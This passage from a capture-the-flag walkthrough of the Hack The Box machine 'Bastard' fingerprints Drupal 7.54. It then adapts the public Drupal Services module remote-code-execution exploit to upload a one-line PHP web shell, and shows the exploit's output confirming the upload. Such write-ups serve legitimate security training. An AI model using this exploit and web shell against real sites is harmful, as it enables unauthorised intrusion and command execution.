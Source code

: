 ```bash
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can see from `droopescan` that the site is running `drupal 7.54`. The system is vulnerable to `Drupalgeddon2` and `Drupalgeddon3`. Both exploits work(`Drupalgeddon3` requires logging in, which can be accomplished using the method we are going to use). I won't be using these as they were released after the release of the box. 

From the `droopescan` we can see that the site uses services module `services` and we do have an exploit for that. Module [`services`](https://www.drupal.org/project/services) provides api endpoints for interacting with the site. A detailed info regarding the exploit can be found [here](https://www.ambionics.io/blog/drupal-services-module-rce).

## User Shell

The exploit requires us to provide the rest endpoint. I tried to find it using `drib` but the scan was really really slow. There are a [couple of methods](https://book.hacktricks.xyz/pentesting/pentesting-web/drupal) to find interesting files in `drupal`.

>Fuzz /node/$ where $ is a number (from 1 to 500 for example).
>You could find hidden pages (test, dev) which are not referenced by the search engines.

Trying out `http://bastard.htb/node/1` shows a page with details regarding the api endpoint that is `/rest`.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/bastard/api.png){: .align-center}

Now edit parts of the exploit.

```php
$url = 'http://bastard.htb';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'joe.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Uploading a simple `php` webshell as the payload. `php-curl` needs to be installed before running the script. 

```bash
kali@kali:~/Desktop/htb/bastard$ php mod.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://bastard.htb/joe.php
```
